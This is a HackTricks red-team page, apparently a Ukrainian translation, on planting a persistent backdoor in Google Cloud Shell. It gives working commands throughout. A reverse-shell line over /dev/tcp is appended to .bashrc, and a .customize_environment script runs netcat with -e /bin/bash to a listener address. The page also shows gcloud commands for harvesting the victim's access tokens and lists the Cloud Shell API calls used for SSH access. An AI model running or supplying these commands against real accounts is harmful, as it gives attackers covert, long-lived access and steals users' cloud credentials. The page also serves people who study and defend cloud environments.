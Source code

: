 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Для отримання додаткової інформації перегляньте:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) надає вам доступ до командного рядка ваших хмарних ресурсів безпосередньо з вашого браузера без будь-яких супутніх витрат.

Ви можете отримати доступ до Cloud Shell Google з **веб-консолі** або запустивши **`gcloud cloud-shell ssh`**.

Ця консоль має деякі цікаві можливості для атакуючих:

1. **Будь-який користувач Google з доступом до Google Cloud** має доступ до повністю автентифікованого екземпляра Cloud Shell (Службові облікові записи можуть, навіть будучи власниками організації).
2. Вказаний екземпляр **зберігатиме свій домашній каталог принаймні 120 днів**, якщо не буде жодної активності.
3. **Немає можливостей для організації моніторити** активність цього екземпляра.

Це в основному означає, що атакуючий може помістити бекдор у домашній каталог користувача, і поки користувач підключається до GC Shell принаймні кожні 120 днів, бекдор виживе, і атакуючий отримає оболонку щоразу, коли вона запускається, просто виконавши:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Є ще один файл у домашній папці під назвою **`.customize_environment`**, який, якщо існує, буде **виконуватись щоразу**, коли користувач отримує доступ до **cloud shell** (як у попередній техніці). Просто вставте попередній бекдор або один з наступних, щоб підтримувати стійкість, поки користувач "часто" використовує cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Важливо зазначити, що **перший раз, коли виконується дія, що вимагає аутентифікації**, у браузері користувача з'являється вікно авторизації. Це вікно потрібно прийняти, перш ніж команда зможе виконатися. Якщо з'явиться несподіване спливаюче вікно, це може викликати підозру і потенційно скомпрометувати метод збереження.
{% endhint %}

Це спливаюче вікно від виконання `gcloud projects list` з cloud shell (як атакуючий), яке видно в сеансі користувача браузера:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Однак, якщо користувач активно використовував cloudshell, спливаюче вікно не з'явиться, і ви можете **збирати токени користувача за допомогою**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Як встановлюється SSH з'єднання

В основному, використовуються ці 3 API виклики:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (дозволить вам додати ваш публічний ключ, який ви створили локально)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (дозволить вам запустити екземпляр)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (повідомить вам IP адресу google cloud shell)

Але ви можете знайти додаткову інформацію в [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Посилання

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
